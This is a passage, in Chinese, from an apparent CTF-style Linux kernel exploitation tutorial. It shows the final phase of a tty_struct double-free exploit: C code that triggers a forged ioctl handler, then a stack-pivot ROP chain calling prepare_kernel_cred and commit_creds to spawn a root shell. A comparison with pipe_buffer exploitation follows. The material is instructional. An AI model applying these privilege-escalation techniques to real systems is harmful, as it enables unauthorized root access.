- payload精确部署到目标内存区域

### 5-12. 阶段11：触发利用与权限获取

**技术目标**：对所有`tty_struct`文件描述符调用`ioctl`系统调用，触发`tty_struct->ops->ioctl`函数执行，激活ROP链，获取root权限。验证利用成功并执行root shell，完成整个利用过程。

**核心实现**：

```c
void phase_11_trigger_exploit(void) {
  log.info("PHASE 11: TRIGGER EXPLOIT & GAIN ROOT PRIVILEGES");

  log.info("Call ioctl to trigger fake ops->release handler");
  for (int i = 0; i < TTY_SPRAY_COUNT; i++) {
    ioctl(ptmx_fds[i], 0xdeadbeaf, 0xdeadbeaf);
  }

  log.success("Exploit triggered! Check for root shell...");
}
```

**实现细节**：

`ioctl`系统调用是触发机制的关键。在Linux内核中，当进程调用`ioctl`系统调用处理终端设备时，内核会查找`tty_operations`结构中的`ioctl`函数指针并调用它。在正常系统中，`ioctl`函数执行特定的终端控制操作。但在被利用的系统中，`tty_struct->ops`指针已被修改为指向伪造的`tty_operations`结构，其中`ioctl`指针指向栈迁移gadget`PUSH_RBX_POP_RSP_POP_RBP_RET`。因此，`ioctl`调用不会执行正常的控制逻辑，而是跳转到可控的代码路径。

控制流劫持的执行路径是精心设计的多级跳转。第一跳：当内核调用`tty_struct->ops->ioctl()`时，控制流转到`PUSH_RBX_POP_RSP_POP_RBP_RET`。此时RBX寄存器的值为当前tty_struct地址，这个gadget将RBX值压栈保存，然后从栈顶弹出新的RSP和RBP值。第二跳：栈指针被设置为`tty_struct->dev`指针的值，这个值在阶段10中被设置为`ADD_RSP_0X50_RET` gadget的地址。控制流转到这个gadget，将栈指针增加0x50。第三跳：增加后的栈指针指向`fake_msg[0x50]`，这里存放着ROP链的第一个gadget地址`POP_RDI_RET`，控制流正式进入ROP链执行阶段。

```
完整触发和执行流程：
+---------------------+     +---------------------+     +---------------------+
| 调用ioctl系统调用   | --> | 调用ioctl()操作     | --> | 跳转到栈迁移gadget  |
+---------------------+     +---------------------+     +---------------------+
         |                          |                          |
         v                          v                          v
+---------------------+     +---------------------+     +---------------------+
| 执行ADD_RSP_0X50_RET| --> | 开始执行ROP链       | --> | 调用prepare_        |
+---------------------+     +---------------------+     | kernel_cred(0)      |
         |                          |                    +---------------------+
         v                          v                          v
+---------------------+     +---------------------+     +---------------------+
| 调用commit_creds()  | --> | 返回用户空间        | --> | 执行root shell      |
+---------------------+     +---------------------+     +---------------------+
```

**技术要点**：

- `ioctl`系统调用触发控制流劫持
- 多级控制流转跳实现稳定执行
- 权限提升ROP链修改进程凭证
- 安全返回用户空间确保系统稳定
- root shell生成提供完整系统访问

### 5-13. 技术对比

以下是`tty_struct`利用与`pipe_buffer`利用的技术对比：

| 对比维度       | tty_struct利用                      | pipe_buffer利用                        |
| -------------- | ----------------------------------- | -------------------------------------- |
| **目标结构**   | `tty_struct` (696字节)              | `pipe_buffer` (1KB)                    |
| **所属缓存**   | kmalloc-1k                          | kmalloc-1k                             |
| **触发机制**   | `ioctl()`系统调用                   | `close()`文件描述符                    |
| **控制点**     | `tty_struct->ops->ioctl` (偏移0x60) | `pipe_buffer->ops->release` (偏移0x18) |
| **结构复杂度** | 高 (696字节，多字段)                | 低 (约40-80字节)                       |
| **利用难度**   | 较高 (需要处理复杂结构)             | 较低 (结构简单)                        |
| **隐蔽性**     | 高 (`ioctl`是正常操作)              | 中 (`close`是正常操作)                 |
| **可靠性**     | 中 (涉及复杂子系统)                 | 高 (触发路径简单)                      |
| **信息泄露**   | 通过越界读取                        | 通过类型混淆                           |
| **内存布局**   | 大小不匹配 (696字节 vs 1KB)         | 大小匹配 (1KB vs 1KB)                  |
| **缓存特性**   | 同属kmalloc-1k，可相互覆盖          | 同属kmalloc-1k，可相互覆盖             |
| **防御绕过**   | 绕过KASLR、链表检查等               | 绕过KASLR、链表检查等                  |
| **适用场景**   | 系统启用复杂终端配置                | 系统使用管道通信                       |

### 5-14. 技术总结

本章详细分析了基于`tty_struct`结构的完整利用过程，通过11个精心设计的阶段逐步建立内存控制、信息泄露、结构伪造和代码执行能力，最终实现权限提升。整个利用过程展示了现代内核漏洞利用的系统性方法论，从初始内存操作到最终代码执行形成完整的技术链，每个阶段都解决特定的技术挑战并建立后续阶段所需的能力基础，综合运用了堆布局控制、类型混淆利用、信息泄露技术、安全机制绕过、控制流劫持和权限提升等多种高级技术，在对抗KASLR、内存初始化保护、链表完整性检查等安全机制的环境下实现了可靠的权限提升，体现了内核漏洞利用领域的技术深度和工程严谨性。

### 5-15. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

- https://github.com/BinRacer/pwn4kernel/tree/master/src/DoubleFree2
- https://github.com/BinRacer/pwn4kernel/tree/master/src/DoubleFree3
- https://arttnba3.cn/2022/03/08/CTF-0X06-D3CTF2022_D3KHEAP/
